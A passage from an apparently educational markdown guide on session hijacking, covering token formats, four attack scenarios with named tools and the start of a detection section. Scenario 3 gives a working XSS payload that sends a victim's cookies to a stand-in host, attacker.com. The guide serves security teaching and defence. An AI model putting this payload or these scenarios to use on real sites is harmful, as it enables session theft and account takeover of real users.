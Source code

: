 ### Session Token Formats
1. **Base64 Encoded**
   - Easy to decode and analyze
   - Often contains readable information
   - Example: `VXNlcklEOjEyMzQ1`

2. **Hexadecimal**
   - Common format for session IDs
   - Example: `A1B2C3D4E5F6`

3. **Encrypted Tokens**
   - More secure but may have implementation flaws
   - JWT tokens with weak signatures

---

## Attack Scenarios

### Scenario 1: WiFi Coffee Shop Attack
1. **Setup**: Attacker on same WiFi network
2. **Method**: Packet sniffing for HTTP cookies
3. **Tools**: Wireshark, Cookie Cadger
4. **Result**: Access to victim's web accounts

### Scenario 2: Corporate Network Insider
1. **Setup**: Malicious employee with network access
2. **Method**: ARP spoofing + session capture
3. **Tools**: Ettercap, custom scripts
4. **Result**: Access to internal applications

### Scenario 3: Web Application XSS
1. **Setup**: Web application with XSS vulnerability
2. **Method**: Inject cookie-stealing script
3. **Payload**: `<script>new Image().src="http://attacker.com/c.php?c="+document.cookie</script>`
4. **Result**: Remote session hijacking

### Scenario 4: SSL Stripping Attack
1. **Setup**: MITM position on network
2. **Method**: Downgrade HTTPS to HTTP
3. **Tools**: SSLstrip, Bettercap
4. **Result**: Capture of encrypted session data

---

## Detection Methods

### Network-Based Detection
1. **Anomaly Detection**
   - Unusual traffic patterns
   - Multiple sessions from same user
   - Geographic anomalies
